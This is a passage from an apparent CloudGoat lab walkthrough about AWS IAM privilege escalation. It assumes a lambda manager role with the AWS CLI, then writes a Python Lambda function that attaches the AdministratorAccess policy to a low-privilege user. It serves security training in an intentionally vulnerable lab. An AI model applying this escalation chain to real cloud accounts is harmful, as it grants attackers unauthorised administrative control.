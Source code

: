 Result:
```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```

The lambda debug role have admin access policy, which is quite powerful policy.

__Stop to think:__
We gonna gain privileged with admin access, by assuming the manager role to create lambda function, passing the `cg-debug-role-lambda_privesc_###` role to this function and using this function to attach the admin access policy to `chris` user.
{: .notice--info}

### Assume the manager role
```shell
aws --profile chris sts assume-role  --role-arn arn:aws:iam::###:role/cg-lambdaManager-role-lambda_privesc_### --role-session-name <whatever-you-want>
```

Result:
```json
{
    "Credentials": {
        "AccessKeyId": "<access-key-id>",
        "SecretAccessKey": "<secret-access-key>",
        "SessionToken": "<session-token>",
    },
    "AssumedRoleUser": {
        "Arn": "arn:aws:sts::###:assumed-role/cg-lambdaManager-role-lambda_privesc_###/<session-name>"
    }
}
```

We got `AccessKeyId`, `ScretAccessKey` and `SessionToken`. Now, we can create the lambda manager profile from this credentials.

If you don't know how <a href="{% post_url 2024-03-05-cloudgoat-vulnerable-lambda %}">see here</a>

I will use `chris-lambda-manager` as the lambda manager user.
{: .notice--info}

### Create lambda function
Create python file name `lambda_function.py` and archive file as zip file.
```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = '<chris-user-name>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
